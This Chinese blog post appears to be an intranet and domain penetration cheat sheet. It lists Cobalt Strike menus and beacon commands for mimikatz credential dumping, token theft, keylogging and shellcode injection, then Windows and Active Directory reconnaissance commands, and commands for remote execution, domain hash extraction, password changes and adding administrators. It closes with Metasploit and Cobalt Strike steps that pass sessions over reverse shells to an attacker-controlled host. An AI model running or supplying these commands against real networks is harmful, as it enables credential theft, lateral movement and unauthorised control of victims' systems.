

域渗透、内网渗透的一些命令
cobalt strike内网渗透常用命令
00 菜单功能
cobalt strike
- New Connection 新的链接
- Preferences 偏好设置
- Visualization 窗口视图模式
- VPN interfaces VPN接入
- Listeners 监听器
- Sript Manager 脚本管理
- Close 退出
View：
- Applications 用于显示 System Profiler 获取的目标浏览器，操作系统，flash版本
- Credentials 显示所有已经获取的用户主机hash
- Downloads 显示下载的文件
- Event log 事件日志 记录团队 目标上线等记录
- Keystrokes 目标键盘记录
- Proxy Pivots 代理信息
- Screenshots 屏幕截图
- Script Console 加载自定义脚本
- Targets 显示所有主机
- Web log web服务日志
Attack：
- Packages
- HTML Application 生成hta文件
- MS Office Macro 宏office文件
- Payload Generator 生成各种语言版本的payload
- USB/CD AutoPlay 利用自动播放运行的被控端文件
- Windows Dropper 捆绑器可将任意正常的文件
- Windows Executable payload生成可执行文件 (一般使用这个)
- Windows Executable (S) 把包含payload,Stageless生成可执行文件(包含多数功能)
- Web Drive-by：
- Manage 开启的所有web服务
- Clone Site 克隆网站
- Host File 提供Web以供下载某文件
- Scripted Web Delivery 为payload提供web服务以便于下载和执行
- Signed Applet Attack 启动一个Web服务以提供自签名Java Applet的运行环境
- Smart Applet Attack 自动检测Java版本并l利用已知的exploits绕过security
- System Profiler 获取系统，Flash，浏览器版本等
- Packages
spear phishing 鱼叉式网络钓鱼
Reporting：
- Activity report 活动报告
- Hosts report 主机报告
- Indicators of Compromise 威胁报告
- Sessions report 会话报告
- Social engineering report 社会工程学报告
01 右键功能
Interact 打开beacon
Access
- dump hashes 获取hash
- Elevate 提权
- Golden Ticket 生成黄金票据注入当前会话
- MAke token 凭证转换
- Run Mimikatz 运行 Mimikatz
- Spawn As 用其他用户生成Cobalt Strike侦听器
Explore
- Browser Pivot 劫持目标浏览器进程
- Desktop(VNC) 桌面交互
- File Browser 文件浏览器
- Net View 命令Net View
- Port scan 端口扫描
- Process list 进程列表
- Screenshot 截图
Pivoting
SOCKS Server 代理服务
Listener 反向端口转发
Deploy VPN 部署VPN
Spawn 新的通讯模式并生成会话
Session 会话管理，删除，心跳时间，退出，备注
02 beacon命令
argue 进程参数欺骗
browserpivot 注入受害者浏览器进程
bypassuac 绕过UAC
cancel 取消正在进行的下载
cd 切换目录
checkin 强制让被控端回连一次
clear 清除beacon内部的任务队列
connect Connect to a Beacon peerover TCP
covertvpn 部署Covert VPN客户端
cp 复制文件
dcsync 从DC中提取密码哈希
desktop 远程VNC
dllinject 反射DLL注入进程
dllload 使用LoadLibrary将DLL加载到进程中
download 下载文件
downloads 列出正在进行的文件下载
drives 列出目标盘符
elevate 尝试提权
execute 在目标上执行程序(无输出)
execute-assembly 在目标上内存中执行本地.NET程序
exit 退出beacon
getprivs Enable system privileges oncurrent token
getsystem 尝试获取SYSTEM权限
getuid 获取用户ID
hashdump 转储密码哈希值
help 帮助
inject 在特定进程中生成会话
jobkill 杀死一个后台任务
jobs 列出后台任务
kerberos_ccache_use 从ccache文件中导入票据应用于此会话
kerberos_ticket_purge 清除当前会话的票据
kerberos_ticket_use 从ticket文件中导入票据应用于此会话
keylogger 键盘记录
kill 结束进程
link Connect to a Beacon peerover a named pipe
logonpasswords 使用mimikatz转储凭据和哈希值
ls 列出文件
make_token 创建令牌以传递凭据
mimikatz 运行mimikatz
mkdir 创建一个目录
mode dns 使用DNS A作为通信通道(仅限DNS beacon)
mode dns-txt 使用DNS TXT作为通信通道(仅限D beacon)
mode dns6 使用DNS AAAA作为通信通道(仅限DNS beacon)
mode http 使用HTTP作为通信通道
mv 移动文件
net net命令
note 备注
portscan 进行端口扫描
powerpick 通过Unmanaged PowerShell执行命令
powershell 通过powershell.exe执行命令
powershell-import 导入powershell脚本
ppid Set parent PID forspawned post-ex jobs
ps 显示进程列表
psexec Use a service to spawn asession on a host
psexec_psh Use PowerShell to spawn asession on a host
psinject 在特定进程中执行PowerShell命令
pth 使用Mimikatz进行传递哈希
pwd 当前目录位置
reg Query the registry
rev2self 恢复原始令牌
rm 删除文件或文件夹
rportfwd 端口转发
run 在目标上执行程序(返回输出)
runas 以另一个用户权限执行程序
runasadmin 在高权限下执行程序
runu Execute a program underanother PID
screenshot 屏幕截图
setenv 设置环境变量
shell cmd执行命令
shinject 将shellcode注入进程
shspawn 生成进程并将shellcode注入其中
sleep 设置睡眠延迟时间
socks 启动SOCKS4代理
socks stop 停止SOCKS4
spawn Spawn a session
spawnas Spawn a session as anotheruser
spawnto Set executable tospawn processes into
spawnu Spawn a session underanother PID
ssh 使用ssh连接远程主机
ssh-key 使用密钥连接远程主机
steal_token 从进程中窃取令牌
timestomp 将一个文件时间戳应用到另一个文件
unlink Disconnect from parentBeacon
upload 上传文件
wdigest 使用mimikatz转储明文凭据
winrm 使用WinRM在主机上生成会话
wmi 使用WMI在主机上生成会话
03 内网渗透常用命令
ipconfig/all //查看IP地址
ipconfig /release //释放地址
ipconfig /renew 重新获取Ip地址
whoami //查询账号所属权限
whoami/all //查看sid值
systeminfo //查询系统以及补丁信息
tasklist /svc //查看进程
taskkill /im 进程名称(cmd) //结束进程
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
wmic qfe get hotfixid //查看已安装过得补丁，这个很实用
wmic qfe list full /format:htable > hotfixes.htm //详细的补丁安装
wmic qfe //查询补丁信息以及微软提供的下载地址
ping hostname(主机名） //显示该机器名的IP
net start //查看当前运行的服务
net user //查看本地组的用户
net localgroup administrators //查看本机管理员组有哪些用户
net use //查看会话
net session //查看当前会话
net share //查看SMB指向的路径[即共享]
wmic share get name,path //查看SMB指向的路径
wmic nteventlog get path,filename,writeable //查询系统日志文件存储位置
net use \IP\ipc$ password /user:username //建立IPC会话（工作组模式）
net use z: \192.168.1.1 //建立映射到本机Z盘
net time \172.16.16.2 //查询共享主机的是
at \172.16.16.2 13:50 c:\windows\2009.exe //在共享主机上执行
netstat -ano //查看开放的端口
netstat -an | find “3389” //找到3389端口
net accounts //查看本地密码策略
nbtstat –A ip //netbiso查询
net view //查看机器注释或许能得到当前活动状态的机器列表，如果禁用netbios就查看不出来
echo %PROCESSOR_ARCHITECTURE% //查看系统是32还是64位
set //查看系统环境设置变量
net start //查看当前运行的服务
wmic service list brief //查看进程服务
wmic process list brief //查看进程
wmic startup list brief //查看启动程序信息
wmic product list brief //查看安装程序和版本信息（漏洞利用线索）
wmic startup list full //识别开机启动的程序
wmic process where(description=”mysqld.exe”) >>mysql.log //获取软件安装路径
04 域渗透常用命令
net group /domain //获得所有域用户组列表
net group qq_group /domain //显示域中qq_group组的成员
net group qq_group /del /domain //删除域中qq_group组
net group qq_group qq /del /domain //删除域内qq_group 群组中的成员QQ
net group qq_group /add /domain //增加域中的群组
net group “domain admins” /domain //获得域管理员列表
net group “enterprise admins” /domain //获得企业管理员列表
net localgroup administrators /domain //获取域内置administrators组用（enterprise admins、domain admins）
net group “domain controllers” /domain //获得域控制器列表
net group “domain computers” /domain //获得所有域成员计算机列表
net user /domain //获得所有域用户列表
net user someuser /domain //获得指定账户someuser的详细信息
net accounts /domain //获得域密码策略设置，密码长短，错误锁定等信息
net view /domain //查询有几个域, 查询域列表
net view /domain:testdomain //查看 testdomain域中的计算机列表
nltest /domain_trusts //获取域信任信息
net user domain-admin /domain //查看管理员登陆时间，密码过期时间，是否有登陆脚本，组分配等信息
net config Workstation //查询机器属于哪个域
net time /domian //查询主域服务器的时间
echo %logonserver% //查看登陆到这台服务器的计算机名
net time \192.168.1.1 //查询远程共享主机192.168.1.1的时间
net use \IP\ipc$ password /user:username@domain //ipc$域内连接
net view \dc2.backlion.com //查看域控共享情况
dir \dc2.backlion.com\SYSVOL /s /a > sysvol.txt //列出sysvol日志记录
xcopy \dc2.backlion.com\sysvol.txt sysvol.txt /i /e /c//远程拷贝到本地sysvol日志
net user /domain bk bk123 //修改域内用户密码，需要管理员权限
net localgroup administartors SEZKL\backlion /add //将SEZKL域中的用户backlion添加到administrators组中
mstsc /admin //远程桌面登录到console会话解决hash无法抓出问题
gpupdate/force //更新域策略
psexec \192.168.1.3 -u administrator -p bk1234 -c gsecdump.exe -u
//从域服务器密码存储文件windows/ntds/ntds.dit导出hash值出来
gsecdump -a //获取域登管理员登录过得hash值，这里gescdump为第三方导出AD域的hash值
tasklist /S ip /U domain\username /P /V //查看远程计算机进程列
05 dsquery的AD查询工具
dsquery user domainroot -limit 65535 && net user /domain //列出该域内所有用户名
dsquery server -domain super.com | dsget server -dnsname -site //搜索域内所有域控制器并显示他们的DNS主机名和站点名称
dsquery contact //寻找目录中的联系人
dsquery subnet //列出该域内网段划分
query user //查询那些用户在线
dsquery group && net group /domain //列出该域内分组
dsquery ou //列出该域内组织单位
dsquery server && net time /domain //列出该域内域控制器
dsquery site -o rdn //搜索域中所有站点的名称
dsquery group dc=super,dc=com |more //搜索在DC=SUPER,DC=COM 域中的所有组
psloggedon.exe //查询那台主机和用户登录到该主机上
netsess.exe //192.168.1.115 //远程主机上无需管理员权限,查询到主机名和用户
reg query “HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\TERMINAL SERVERCLIENT\DEFAULT” //获取最近mstsc登录的记录
06 CS与MSF互转
CS到MSF
在CS中获取一个beacon
在msf中设置监听
use exploit/multi/handler set padyload windows/meterpreter/reverse_tcp set lhost xx.xx.xx.xx set lport 1234 run在CS中设置一个监听器
windows/foreign/reverse_tcp Listener
其中ip为msf的ip地址，端口为msf所监听的端口
右键spawn，选择刚才设置的监听器即可
MSF到CS
在MSF中获取一个Meterpreter
在CS中设置一个监听
在MSF中进行注入，注意payload要与CS监听使用的payload一致
msf exploit(handler) > use exploit/windows/local/payload_inject msf exploit(payload_inject) > set PAYLOAD windows/meterpreter/reverse_http msf exploit(payload_inject) > set DisablePayloadHandler true msf exploit(payload_inject) > set LHOST xx.xx.xx.xx msf exploit(payload_inject) > set LPORT 1234 msf exploit(payload_inject) > set SESSION 1 msf exploit(payload_inject) > exploit主机上线
07 键盘快捷键
摘自官方文档

本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！